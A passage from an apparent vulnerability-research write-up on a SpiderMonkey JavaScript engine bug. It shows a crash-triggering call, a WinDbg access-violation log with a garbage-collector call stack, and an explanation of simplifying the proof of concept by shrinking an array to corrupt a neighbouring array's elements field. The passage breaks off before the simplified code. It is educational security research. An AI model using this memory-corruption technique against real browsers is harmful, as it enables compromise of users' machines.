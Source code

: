 ```javascript
    Target(Snowflake, 0x9, 0xBB);
```

And tada:

```text
(d0.348c): Access violation - code c0000005 (!!! second chance !!!)
js!js::gc::Arena::finalize<JSObject>+0x12e:
00007ff6`e601eb2e 8b43f0          mov     eax,dword ptr [rbx-10h] ds:fff88000`000000ab=????????

0:000> kc
 # Call Site
00 js!js::gc::Arena::finalize<JSObject>
01 js!FinalizeTypedArenas<JSObject>
02 js!FinalizeArenas
03 js!js::gc::ArenaLists::backgroundFinalize
04 js!js::gc::GCRuntime::sweepBackgroundThings
05 js!js::gc::GCRuntime::sweepFromBackgroundThread
06 js!js::GCParallelTaskHelper<js::gc::BackgroundSweepTask>::runTaskTyped
07 js!js::GCParallelTask::runFromMainThread
08 js!js::GCParallelTask::joinAndRunFromMainThread
09 js!js::gc::GCRuntime::endSweepingSweepGroup
0a js!sweepaction::SweepActionSequence<js::gc::GCRuntime *,js::FreeOp *,js::SliceBudget &>::run
0b js!sweepaction::SweepActionRepeatFor<js::gc::SweepGroupsIter,JSRuntime *,js::gc::GCRuntime *,js::FreeOp *,js::SliceBudget &>::run
0c js!js::gc::GCRuntime::performSweepActions
0d js!js::gc::GCRuntime::incrementalSlice
0e js!js::gc::GCRuntime::gcCycle
0f js!js::gc::GCRuntime::collect
10 js!js::gc::GCRuntime::gc
11 js!JSRuntime::destroyRuntime
12 js!js::DestroyContext
13 js!main
```

### Simplifying the PoC

OK so with this internal knowledge that we have gone through, we understand enough of the pieces at play to simplify the PoC. It's always good to verify assumptions in practice and so it'll be a good exercise to see if what we have learned above sticks.

First, we do not need an array of size `0x7e`. Because the corruption target that we identified above is reachable at the index `0x20` (remember it's the neighboring array's `elements_` field), we need the array to be able to store `0x21` elements. This is just to satisfy the `boundscheck` before we can shrink it. 

We also know that the only role that the `0x30` index constant has been serving is to make sure that the first `0x30` elements in the array have been properly initialized. As the `boundscheck` operates against the `initializedLength` of the array, if we try to access at an index higher we will take a bailout. An easy way to not worry about this at all is to initialize entirely the array with a `.fill(0)` for example. Once this is done we can update the first index and use `0` instead of `0x30`.

After all the modifications this is what you end up with:
